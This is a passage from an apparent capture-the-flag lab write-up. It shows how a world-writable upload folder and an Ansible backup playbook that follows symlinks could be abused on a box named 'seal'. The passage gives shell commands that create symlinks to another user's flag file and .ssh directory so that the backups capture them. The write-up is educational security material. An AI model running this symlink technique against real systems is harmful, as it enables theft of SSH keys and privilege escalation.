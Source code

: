The last point already identified was the backup files located at `/opt/backups`, where we can see the following files, which were copied over to the attacker machine:

```bash
tomcat@seal:/opt/backups$ find . -type f
./archives/backup-2021-08-18-21:51:33.gz
./archives/backup-2021-08-18-21:50:33.gz
./archives/backup-2021-08-18-21:52:33.gz
./playbook/run.yml
```

Checking the `run.yml` file, we have an Ansible playbook that copies all files in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` to `/opt/backups/files` and then creates a compressed archive from it.

```yaml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

Inspecting the source folder permissions we can see that the `uploads` directory is world-writable (777) and we could add anything inside it to be archived with the remaining contents of `dashboard`.

```bash
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -la
total 100
drwxr-xr-x 7 root root  4096 May  7 09:26 .
drwxr-xr-x 3 root root  4096 May  6 10:48 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6 10:42 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7 09:26 uploads
```

An interesting point is a flag `copy_links=yes` added in the `synchronize` task which, according to [synchronize - Ansible Documentation](https://docs.ansible.com/ansible/2.3/synchronize_module.html), it will copy the actual file from the links in the respective directories.

To test this theory, we can attempt to create two links inside the uploads directory, one for `user.txt` flag and the second for `.ssh` from `luis`' profile

```bash
ln -s /home/luis/user.txt /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/user.txt
ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/.ssh
```
